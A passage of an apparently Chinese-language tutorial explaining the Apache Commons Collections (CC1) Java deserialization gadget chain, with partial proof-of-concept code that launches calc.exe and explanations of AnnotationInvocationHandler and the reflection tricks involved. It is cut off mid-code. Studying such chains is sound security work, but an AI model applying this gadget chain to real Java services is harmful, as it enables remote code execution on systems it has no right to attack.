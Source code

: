 ```java
new Object[]
{"calc.exe"}),
};
Transformer transformerChain = new
ChainedTransformer(transformers);
Map innerMap = new HashMap();
Map outerMap = TransformedMap.decorate(innerMap, null,
transformerChain);
outerMap.put("test", "xxxx");
}
}
```

用Transformer[]定义了transformers接口，transformers接收两个参数，分别为ConstantTransformer(构造函数时传入对象并返回该对象)，InvokerTransformer(执行任意方法)。

* InvokerTransformer接收三个参数，命令执行方法，函数参数类型，参数列表。参数类型参照前面的exec不同构造构造函数。这里选择的String.class也就是字符对象。

+ InvokerTransformer用getClass，getMethod后用invoke执行了方法。

```java
Class cls = input.getClass();
Method method = cls.getMethod(iMethodName, iParamTypes);
return method.invoke(input, iArgs);
```

ChainedTransformer将前一个回调返回结果作为后一个回调参数，现在你就知道了为什么transformers定义时传入了两个对象了，getRuntime获取的对象经过ConstantTransformer返回后作为参数传到InvokerTransformer里。因为Runtime里才有exec方法

而decorate方法是获取一个TransformedMap对象，当TransformedMap内的key和value变化时就会触发Transformer的transform()方法。 在这里也就是把transformerChain绑定在value或者key上。后续put进新元素时会改变transformvalue或者key进而触发反序列化链。

触发过程：put新元素触发hashmap的反序列化，并且transformChain开始生成runtime对象，exec执行



但是现实环境几乎没有能直接put元素的环境。需要在java原生环境找到put类操作，也就是sun.reflect.annotation.AnnotationInvocationHandler。AnnotationInvocationHandler的readObject方法里有memberValue.setValue()，在序列化时会直接触发。所以只需要把Map传进去就行了。但是这个方法是私有的，还需要反射获取



```java
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(barr);
oos.writeObject(obj);
oos.close();
```

由于网络传输需要用字节流而不是字符流，就需要先ByteOutputStream创建字节数组缓存区，再创建对象的序列化流后用writeObject写入序列化流。



但是执行不了，上述代码对象是由Runtime.getRuntime()实例化对象方法直接生成的。继承的是Runtime的方法，但是该类下没有serializable接口进行序列化。从开篇提的class反射生成的类具有serializable接口，所以这里要借助class进行反射。(对象具有serializable接口才能反序列化，而反序列化是从readObject入口)



所以反序列化链为：

```java
package org.vulhub.Ser;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;
public class CommonCollections1 {
    public static void main(String[] args) throws Exception {
    Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
```
